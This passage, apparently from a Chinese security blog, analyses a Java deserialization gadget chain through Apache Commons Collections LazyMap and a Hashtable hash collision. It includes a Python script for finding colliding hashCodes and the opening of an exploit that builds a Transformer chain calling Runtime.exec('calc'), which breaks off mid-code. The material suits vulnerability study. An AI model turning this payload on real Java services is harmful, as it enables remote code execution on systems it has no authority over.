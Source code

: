 而value Integer类型的hashCode函数则返回其本身

```java
public static int hashCode(int value) {
        return value;
    }
```

根据String计算hashCode的方式编写找hashCode相等的字符串的脚本:

```python
import string
#获取全部字母的数组
letter=string.ascii_letters
print(letter)

def hashCode(str):
    return 31*ord(str[0])+ord(str[1])

#随机组合成两个的字符串
for i in letter:
    for j in letter:
        for k in letter:
            for l in letter:
                str1=i+j
                str2=k+l

                if (str1!=str2 and hashCode(str1)==hashCode(str2)):
                    print(str1+"  hash===  "+str2)
```

首先通过Hashtable的readObject触发`Hashtable.reconstitutionPut`,由于`yy`和`zZ`的hashCode相等,所以触发`equals`方法,LazyMap是没有equals方法的,但是它继承的抽象类`AbstractMapDecorator`实现了`equals`方法

![image-20220331011008494](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220331011008494.png)

它只要判断传入的对象不是当前对象,则调用map的equals方法,这里的map就是lazyMap中的map属性,由于起初lazyMap初始化的时候map传递的是`HashMap`,所以会调用`HashMap`的`equals`方法,但是HashMap并没有`equals`方法,但是它继承的抽象父类`AbstractMap`有,map属性需要满足3条就可以,`1.不是同一对象2.实现了Map接口3.o和当前map 的元素个数相等`

![image-20220331011543850](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220331011543850.png)

接着就会调用map的get,虽然o被转型为了Map,但是其本质上还是LazyMap,所以这里调用`m.get`就相当于调用了`lazyMap2.get`至于这里调用的是第二个lazyMap的get但是为什么key是"yy"而不是"zz"原因还是序列化的时候的那一波出入栈操作![image-20220331012704699](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220331012704699.png)



```java
public static void main(String[] args)throws Exception {

        Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer Chainedtransform = new ChainedTransformer(new Transformer[]{});
    	//可以替换为 ... = new ChainedTransformer(new Transformer[]{new ConstantTransformer(0)});

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, Chainedtransform);
        Map lazyMap2 = LazyMap.decorate(innerMap2, Chainedtransform);
        lazyMap1.put("yy",1);
```